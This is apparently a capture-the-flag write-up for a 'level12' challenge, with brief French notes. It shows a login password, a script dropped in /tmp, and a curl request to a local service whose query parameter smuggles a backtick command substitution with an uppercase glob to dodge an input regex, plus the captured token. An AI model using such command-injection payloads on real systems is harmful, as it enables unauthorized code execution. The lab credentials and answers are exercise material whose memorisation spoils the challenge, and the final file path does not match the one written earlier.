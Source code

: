## Step 1: Login
`su level12`

**password:** fa6v5ateaw21peobuub8ipe6s

## Step 2: Find flag

le regex parse les majuscules

`echo -e '#!/bin/sh\ngetflag > /tmp/flag' > /tmp/TEST`

`chmod +x /tmp/TEST`

`curl localhost:4646?x='`/*/TEST`'`

`cat /tmp/tokflag`
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
